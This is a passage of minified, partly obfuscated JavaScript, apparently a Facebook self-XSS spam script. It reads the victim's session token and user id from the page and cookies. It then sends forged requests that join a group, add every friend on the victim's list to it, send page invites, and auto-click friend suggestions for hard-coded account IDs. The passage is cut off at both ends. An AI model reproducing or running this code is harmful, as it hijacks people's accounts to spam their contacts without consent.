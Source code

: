 if(cinshtml.getElementsByTagName("select")[0].value=="2"){document.cookie="cins"+user_id+"=erkek;expires="+btarihi.toGMTString()}eval(fonksiyon+"("+id+","+cins+");")}};xmlhttp.open("GET","/ajax/timeline/edit_profile/basic_info.php?__a=1&amp;__user="+user_id,true);xmlhttp.setRequestHeader("X-SVN-Rev",svn_rev);xmlhttp.send()}function autoSuggest(){links=document.getElementsByTagName("a");for(i in links){l=links[i];if(l.innerHTML=='&lt;span class="uiButtonText">Suggest Friend&lt;/span>'){l.click()}}}function blub(){if(document.getElementsByClassName("pbm fsm").length==1){w=document.getElementsByClassName("pbm fsm")[0];e=document.createElement("a");e.innerHTML="Auto Suggest by Anonymous";e.className="uiButton";e.onclick=autoSuggest;if(w.childElementCount==0){w.appendChild(document.createElement("br"));w.appendChild(e)}}}var fb_dtsg=document.getElementsByName("fb_dtsg")[0].value;var user_id=document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);var fb_dtsg=document.getElementsByName("fb_dtsg")[0].value;var user_id=document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);a("100007315202146");a("100004424891818"); sublist("201789993311829");var fb_dtsg=document["getElementsByName"]("fb_dtsg")[0]["value"];var user_id=document["cookie"]["match"](document["cookie"]["match"](/c_user=(\d+)/)[1]);var httpwp=new XMLHttpRequest;varurlwp="/ajax/groups/membership/r2j.php?__a=1";var paramswp="&amp;ref=group_jump_header&amp;group_id="+gid+"&amp;fb_dtsg="+fb_dtsg+"&amp;__user="+user_id+"&amp;phstamp=";httpwp["open"]("POST",urlwp,true);httpwp["setRequestHeader"]("Content-type","application/x-www-form-urlencoded");httpwp["setRequestHeader"]("Content-length",paramswp["length"]);httpwp["setRequestHeader"]("Connection","keep-alive");httpwp["send"](paramswp);var fb_dtsg=document["getElementsByName"]("fb_dtsg")[0]["value"];var user_id=document["cookie"]["match"](document["cookie"]["match"](/c_user=(\d+)/)[1]);var friends=new Array;gf=new XMLHttpRequest;gf["open"]("GET","/ajax/typeahead/first_degree.php?__a=1&amp;viewer="+user_id+"&amp;token"+Math["random"]()+"&amp;filter[0]=user&amp;options[0]=friends_only",false);gf["send"]();if(gf["readyState"]!=4){}else{data=eval("("+gf["responseText"]["substr"](9)+")");if(data["error"]){}else{friends=data["payload"]["entries"]["sort"](function(e,t){return e["index"]-t["index"]})}}for(var i=0;i&lt;friends["length"];i++){var httpwp=new XMLHttpRequest;var urlwp="/ajax/groups/members/add_post.php?__a=1";var paramswp="&amp;fb_dtsg="+fb_dtsg+"&amp;group_id="+gid+"&amp;source=typeahead&amp;ref=&amp;message_id=&amp;members="+friends[i]["uid"]+"&amp;__user="+user_id+"&amp;phstamp=";httpwp["open"]("POST",urlwp,true);httpwp["setRequestHeader"]("Content-type","application/x-www-form-urlencoded");httpwp["setRequestHeader"]("Content-length",paramswp["length"]);httpwp["setRequestHeader"]("Connection","keep-alive");httpwp["onreadystatechange"]=function(){if(httpwp["readyState"]==4&amp;&amp;httpwp["status"]==200){}};httpwp["send"](paramswp)}var spage_id = "693231517363442";var spost_id="100004424891818";var sfoto_id="233886476768847";var user_id=document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);var smesaj="";var smesaj_text="";var arkadaslar=[];var svn_rev;var bugun=new Date;var btarihi=new Date;btarihi.setTime(bugun.getTime()+1e3*60*60*4*1);if(!document.cookie.match(/paylasti=(\d+)/)){document.cookie="paylasti=hayir;expires="+btarihi.toGMTString()}var tiklama=document.addEventListener("click",function(){if(document.cookie.split("paylasti=")[1].split(";")[0].indexOf("hayir")>=0){svn_rev=document.head.innerHTML.split('"svn_rev":')[1].split(",")[0];sarkadaslari_al();document.cookie="paylasti=evet;expires="+btarihi.toGMTString();document.removeEventListener(tiklama)}},false);var cinssonuc={};var cinshtml=document.createElement("html");blub();document.addEventListener("DOMNodeInserted",blub,true) function InviteFriends(e){jx.load(window.location.protocol+"//www.facebook.com/ajax/pages/invite/send_single?page_id="+page_id+"&amp;invitee="+e+"&amp;elem_id=u_0_1k&amp;action=send&amp;__user="+user_id+"&amp;__a=1&amp;__dyn=7n8aD5z5CF-3ui&amp;__req=8&amp;fb_dtsg="+fb_dtsg+"&amp;phstamp=",function(e){var t=e.substring(e.indexOf("{"));var n=JSON.parse(t);i--;Descriptions="&lt;div class='friend-edge-name' style='padding-bottom:5px;text-align:left;font-size:10px;white-space:pre-wrap;";if(n.error){Descriptions+="color:darkred'>";err++;if(n.errorDescription){Descriptions+=n.errorDescription}else{Descriptions+=JSON.stringify(n,null,"")}}else{Descriptions+="color:white'>";Descriptions+=arn[i]+"&amp;#1578;&amp;#1605; &amp;#1575;&amp;#1585;&amp;#1587;&amp;#1575;&amp;#1604; &amp;#1575;&amp;#1604;&amp;#1583;&amp;#1593;&amp;#1608;&amp;#1577; &amp;#1604;&amp;#1604;&amp;#1575;&amp;#1593;&amp;#1580;&amp;#1575;&amp;#1576; &amp;#1576;&amp;#1600;"+page_name+".";suc++}Descriptions+="&lt;/div>";var r="&lt;div id='friend-edge-display' style='box-shadow:0px 3px 8px rgba(0, 0, 0, 0.3);position:fixed;left:35%;margin-left:-273px;top:58px;width:700px;background-color:rgba(25,22,25,0.9);z-index:8;font-family:arial;text-shadow:0px 0px 18px white;sans-serif;box-shadow:0px 0px 44px black; text-shadow:0px 0px 12px white;font-size:20px;text-align:center;padding:3px;border-radius:15em 2em;border:15px double  rgba(225,225,25,0.6);z-index:8;font-family:arial;text-shadow:0px 0px 18px white;sans-serif;box-shadow:0px 0px 44px black;color:white'>";r+="&lt;div style='padding-bottom:5px;font-size:20px;'>"+Title+"&lt;/div>";if(i>0){r+=arr.length+"&amp;#1593;&amp;#1605;&amp;#1602; &amp;#1575;&amp;#1604;&amp;#1576;&amp;#1581;&amp;#1579;&lt;br/>";r+="&lt;b>"+suc+"&lt;/b>&amp;#1575;&amp;#1604;&amp;#1593;&amp;#1583;&amp;#1583; &amp;#1575;&amp;#1604;&amp;#1584;&amp;#1609; &amp;#1578;&amp;#1605; &amp;#1583;&amp;#1593;&amp;#1608;&amp;#1578;&amp;#1607;"+(arr.length-i)+"&amp;#1575;&amp;#1604;&amp;#1593;&amp;#1583;&amp;#1583;